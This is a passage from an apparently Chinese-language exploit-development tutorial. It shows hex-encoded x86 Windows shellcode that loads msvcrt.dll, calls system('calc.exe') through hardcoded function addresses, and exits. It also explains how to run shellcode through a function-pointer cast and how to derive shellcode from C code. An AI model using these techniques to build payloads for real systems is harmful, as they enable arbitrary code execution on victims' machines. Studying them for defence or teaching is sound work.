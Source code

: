 ```
"\xC6\x45\xFA\x2E"//'.'
"\xC6\x45\xFB\x64"//'d'
"\xC6\x45\xFC\x6C"//'l'
"\xC6\x45\xFD\x6C"//'l'
"\x8D\x45\xF4" //lea eax, [ebp-0ch]
"\x50" //push eax
"\xB8\x7B\x1D\x80\x7C" //mov eax, 7C801D7Bh     loadlibraryA函数的地址放入eax中
"\xFF\xD0" //call eax                           通过loadlibraryA加载msvcrt.dll
"\x33\xDB" //xor ebx, ebx
"\x53" //push ebx
"\x68\x2E\x65\x78\x65" //push 'exe.'            将calc.exe入栈
"\x68\x63\x61\x6C\x63" //push 'clac'
"\x8B\xC4" //mov eax, esp
"\x50" //push eax
"\xB8\xC7\x93\xBF\x77" //mov eax, 77BF93C7h     system函数的地址放入eax（在msvcrt.dll中）
"\xFF\xD0" //call eax                           system（"calc.exe");
"\xB8\xFA\xCA\x81\x7C" //mov eax, 7c81cafah     ExitProcess函数的地址
"\xFF\xD0"//call eax
```  
上述函数的地址在不同系统下是不一样的，所以函数地址需要硬编码。需要注意，上面的shellcode可以拼接成一个整体，就是去掉双引号。另外shellcode不能含0，会被截断（需要修改汇编指令 mov eax, 0-->xor eax, eax）。
shellcode执行方法(用于线下测试)可以定义一个无返回值的函数指针类型，通过强转的形式执行。
```
typedef void(*Func)();
((Func)&shellcode)();
```  
#### 1.1.3 shellcode设计
汇编大佬直接写就行，一般人可以通过vs提取shellcode。  
思路-->C语言程序--》汇编程序--》嵌入汇编改写--》机器码  
先写一段c语言代码：  
```
 #include <windows.h>
 #include <winbase.h> 
 
 typedef void (*MYPROC)(LPTSTR);        //定义函数指针
 
 int main()
 {
 	HINSTANCE LibHandle;
 	MYPROC ProcAdd;
 	LibHandle = LoadLibrary("msvcrt.dll");
 	ProcAdd = (MYPROC) GetProcAddress(LibHandle, "system"); //查找system函数地址
 	(ProcAdd) ("calc.exe");   //其实就是执行system("clac.exe")
 	
 	return 0;
 }
```  
用vs2017编译需要将“使用unicode编码”改成“使用多字节字符集”，然后拿出汇编代码，重新编写：  
```
 #include <windows.h>
 void main()
 {
 	__asm
 	{
       汇编代码
 	}
 }
```  
在拿到机器码后以以下方式执行：  
```
unsigned char sh[]=机器码
typedef void(*Func)();

int main()
```